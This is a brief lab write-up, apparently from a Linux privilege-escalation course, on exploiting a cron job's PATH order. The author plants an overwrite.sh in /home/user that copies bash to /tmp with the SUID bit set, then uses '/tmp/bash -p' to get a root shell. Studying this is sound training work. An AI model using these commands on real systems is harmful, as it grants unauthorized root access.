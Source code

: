 When you open the crontab, you will find the shell it is running and the path it is using. 

So, in the machine TCM is using, the first location in the path is /home/user. And there is no file called overwrite.sh in this directory. So, we can make a malicious script and run it.

Well... yk the drill:

```shell
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh

chmod +x /home/user/overwrite.sh
```

And now... we wait. 

Then we check whether the script has been run or not:

```shell 
ls -la /tmp
```

If it shows bash, then we have run the script. Then we run this:

```shell
/tmp/bash -p
```
